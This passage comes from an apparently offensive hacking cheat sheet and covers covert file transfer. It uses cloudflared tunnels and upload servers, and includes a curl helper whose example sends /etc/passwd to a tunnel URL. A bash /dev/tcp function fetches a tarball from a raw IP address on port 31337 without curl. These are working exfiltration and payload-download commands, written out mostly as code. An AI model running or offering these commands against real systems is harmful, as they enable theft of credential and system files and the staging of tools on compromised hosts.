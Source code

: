 <a id="http"></a>
### 4.v. File transfer - using HTTPs

#### Download from Server to Receiver:

On the Sender/Server:
```sh
## Spawn a temporary HTTP server and share the current working directory.
python -m http.server 8080 --bind 127.0.0.1 &
# alternative: php -S 127.0.0.1:8080
cloudflared tunnel -url localhost:8080
```
Receiver: Access the URL from any browser to view/download the remote file system.

#### 1 - Upload using PHP:

On the Receiver:
```posh
curl -fsSL -o upload_server.php https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/raw/master/tools/upload_server.php
mkdir upload
(cd upload; php -S 127.0.0.1:8080 ../upload_server.php &>/dev/null &)
cloudflared tunnel --url localhost:8080 --no-autoupdate
```

On the Sender:
```posh
# Set a function:
up() { curl -fsSL -F "file=@${1:?}" https://ABOVE-URL-HERE.trycloudflare.com; }
# upload files like so:
up warez.tar.gz
up /etc/passwd
```

#### 2 - Upload using PYTHON:

On the Receiver:
```posh
pip install uploadserver
python -m uploadserver &
cloudflared tunnel -url localhost:8000
```

On the Sender:
```posh
curl -X POST  https://CF-URL-CHANGE-ME.trycloudflare.com/upload -F 'files=@myfile.txt'
```

---
<a id="burl"></a>
### 4.vi. File transfer without curl

Using bash, download only:
```sh
burl() {
    IFS=/ read -r proto x host query <<<"$1"
    exec 3<>"/dev/tcp/${host}/${PORT:-80}"
    echo -en "GET /${query} HTTP/1.0\r\nHost: ${host}\r\n\r\n" >&3
    (while read -r l; do echo >&2 "$l"; [[ $l == $'\r' ]] && break; done && cat ) <&3
    exec 3>&-
}
# burl http://ipinfo.io
# PORT=31337 burl http://37.120.235.188/blah.tar.gz >blah.tar.gz
```

---